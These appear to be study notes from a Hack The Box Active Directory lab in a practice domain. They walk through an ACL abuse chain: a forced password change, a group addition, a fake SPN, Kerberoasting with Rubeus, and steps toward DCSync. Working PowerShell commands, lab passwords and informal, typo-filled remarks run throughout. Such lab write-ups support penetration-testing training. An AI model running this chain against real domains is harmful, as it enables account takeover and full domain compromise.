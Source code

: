 - We have control over the user `wley` whose hash we retrieved earlier in the module (assessment) using Responder and cracked offline using Hashcat to reveal the cleartext password value
- We enumerated objects that the user `wley` has control over and found that we could force change the password of the user `damundsen`
- From here, we found that the `damundsen` user can add a member to the `Help Desk Level 1` group using `GenericWrite` privileges
- The `Help Desk Level 1` group is nested into the `Information Technology` group, which grants members of that group any rights provisioned to the `Information Technology` group


`Get-DomainObjectACL` shows us that members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could:

- Modify group membership
- Force change a password
- Perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak


`adunn` user has `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-In-Filtered-Set` rights over the domain objec

----

#### Creating a PSCredential Object
wley` has control over  force change the password of the user `damundsen
wley <> transporter@4
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force

PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

#### Creating a SecureString Object
represents the password we want to set for the target user `damundsen`.
```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

#### Changing the User's Password
```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```


#### Creating a SecureString Object using damundsen
add ourselves to the `Help Desk Level 1` group.
authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

#### Adding damundsen to the Help Desk Level 1 Group
check memebrs?
```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

#### Confirming damundsen was Added to the Group
```python
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
MemberName
----------
busucher
spergazed
damundsen
dpayne
```

---
#### check list
```python
1- damundsen is part of help desk 1 group netsed to `Information Technology`

2- member of 'info tech' group can take over use 'adunn' == '`GenericAll`' PRIV

3- 'adun' is admin we cant change his password , 

4- lets assing spn to user 'adunn' > then perform 'kerbrousting' attack to gain SPN ticket which is encrypted with addun password hash] via 'GenericAll`' PRIV'

```

#### Creating a Fake SPN VIA `GenericAll` PRIV
$CRED2 == damundsen
```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
#### Kerberoasting with Rubeus
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap
```
```powershell-session
[*] ServicePrincipalName   : notahacker/LEGIT
```
```powershell-session
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

crack the password offline using Hashcat > authenticate as the `adunn` user and perform the DCSync attack.

---


## Cleanup
In terms of cleanup, there are a few things we need to do:

1. Remove the fake SPN we created on the `adunn` user.
2. Remove the `damundsen` user from the `Help Desk Level 1` group
3. Set the password for the `damundsen` user back to its original value (if we know it) or have our client set it/alert the user

This order is important because if we remove the user from the group first, then we won't have the rights to remove the fake SPN.



DCSync attack

# adunn hash
SyncMaster757
adunn